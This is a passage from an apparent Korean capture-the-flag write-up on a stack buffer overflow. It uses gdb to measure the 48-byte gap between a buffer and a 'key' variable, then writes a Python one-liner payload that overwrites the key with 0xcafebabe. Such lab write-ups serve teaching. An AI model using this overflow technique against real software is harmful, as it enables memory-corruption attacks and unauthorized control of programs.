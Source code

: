 ![infoReg](/img/02_infoReg.jpg)

이 부분. 

    ebp            0x61ff08 0x61ff08

`0x61ff08`라는 주소가 나왔다. 그럼 위의 instuction에서 key로 추정되는 주소는, 

    (gdb) p/x 0x61ff08 + 0x8
    $3 = 0x61ff10


<br>
<br>

그으러어며언... 

아까 추정한 overflowme의 주소는 `0x61fee0`

그리고 방금 추정한 key의 주소는 `0x61ff10`

더 높은 주소에 있는 key에서 overflowme를 빼보자... 

    (gdb) p/d 0x61ff10 - 0x61fee0
    $3 = 48

사이의 거리가 48이다!! 

<br>


그럼 48개의 dummy값과 key에 넣어줄....
little endian방식의 0xcafebabe를 페이로드로 짜보자. 

0xcafebabe는 10진수로 3405691582이다. key에 int로 담길테니까. 


    `python -c "print 'x'*48 + '\xbe\xba\xfe\xca'"`

